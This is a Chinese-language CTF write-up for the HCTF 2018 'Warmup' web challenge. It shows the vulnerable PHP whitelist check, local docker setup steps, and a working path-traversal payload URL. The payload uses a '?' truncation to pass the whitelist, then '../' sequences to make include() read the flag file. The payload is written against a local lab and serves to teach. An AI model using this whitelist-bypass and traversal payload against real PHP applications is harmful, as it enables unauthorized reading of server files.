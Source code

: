 ```yaml
---
title: HCTF 2018 Warmup
toc: true
date: 2019-05-01 04:08:06
categories: HCTF
tags:
  - php
  - source code
  - lfi
---
```


# HCTF 2018 Warmup

## 题目详情

* HCTF 2018 Web 签到题

## 考点
* 代码审计
```php

            $_page = mb_substr(
                $page,
                0,
                mb_strpos($page . '?', '?')
            );
            if (in_array($_page, $whitelist)) {
                return true;
            }
```

## 启动
* docker-compose up -d
* open http://127.0.0.1:8081/index.php

## Writeup
![20181113154210017010415.png](http://image.cocoli.top/20181113154210017010415.png)
`http://127.0.0.1:8081/index.php?file=hint.php?/../../../../../../../../ffffllllaaaagggg`
可以利用?截取hint.php，然后利用/使hint.php?成为一个不存在的目录，最后include利用../../跳转目录读取flag

## 版权
该题目复现环境尚未取得主办方及出题人相关授权，如果侵权，请联系本人删除（ cocolizdf@gmail.com）

凭印象弄的,稍微有一些改变,题目考点不变.
官方题目代码https://github.com/vidar-team/HCTF2018






